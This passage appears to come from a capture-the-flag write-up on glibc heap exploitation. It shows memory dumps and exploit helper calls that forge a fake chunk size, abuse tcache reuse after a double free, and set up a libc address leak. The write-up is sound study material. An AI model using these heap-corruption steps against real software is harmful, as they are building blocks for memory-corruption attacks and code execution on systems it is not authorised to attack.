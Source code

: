 ```  
0x56257ccda770: 0x4747474747474747      0x4747474747474747  
0x56257ccda780: 0x4747474747474747      0x4747474747474747  
0x56257ccda790: 0x4747474747474747      0x4747474747474747  
0x56257ccda7a0: 0x0000000000000000      0x0000000000000081  
0x56257ccda7b0: 0x5252525252525252      0x5252525252525252  
0x56257ccda7c0: 0x0000000000000420      0x0000000000000061  
0x56257ccda7d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda800: 0x0000000000000000      0x0000000000000000  
0x56257ccda810: 0x0000000000000000      0x0000000000000000  
0x56257ccda820: 0x0000000000000000      0x00000000000207e1  
```

now that we have our fake size 0x421 chunk on the heap, we just have to free
it.

if you pay close attention to the code posted above you will see, that we
freed chunk A as well as chunk B. so before we free it again, we have to
malloc

```  
create(0,0x60,0x8*b'F')  
```

that call returned our chunk A from tcache size 0x70 even tho the actual size
is 0x421. This is because when we freed it it was still size 0x71 and so it
was stored in tcache 0x70.

now we free it by mallocing a new chunk(the code of create())

```  
create(0,0xe0,b'WWWWWWWW')  
```

the size of this allocation(0xe0) is important. We will see why soon.

the state of the heap after the call for malloc(0xe0):  
```  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1 <--- the new chunk
size 0xe0 we just allocated  
0x56257ccda3b0: 0x5757575757575757      0x00007f6a2f4adf00  
0x56257ccda3c0: 0x000056257ccda3a0      0x000056257ccda3a0  
0x56257ccda3d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda400: 0x0000000000000000      0x0000000000000000  
0x56257ccda410: 0x0000000000000000      0x0000000000000211 <--- chunk B -
still freed  
0x56257ccda420: 0x0000000000000000      0x000056257ccda010  
0x56257ccda430: 0x4242424242424242      0x4242424242424242  
0x56257ccda440: 0x4242424242424242      0x4242424242424242  
0x56257ccda450: 0x4242424242424242      0x4242424242424242  
0x56257ccda460: 0x4242424242424242      0x4242424242424242  
0x56257ccda470: 0x4242424242424242      0x4242424242424242  
0x56257ccda480: 0x4242424242424242      0x4242424242424242  
0x56257ccda490: 0x4242424242424242      0x0000000000000331 <--- chunk A that
shrunk  
0x56257ccda4a0: 0x00007f6a2f4adbe0      0x00007f6a2f4adbe0 <--- libc address
we are trying to leak  
0x56257ccda4b0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4c0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda500: 0x0000000000000000      0x0000000000000000  
0x56257ccda510: 0x0000000000000000      0x0000000000000000  
0x56257ccda520: 0x0000000000000000      0x0000000000000000  
```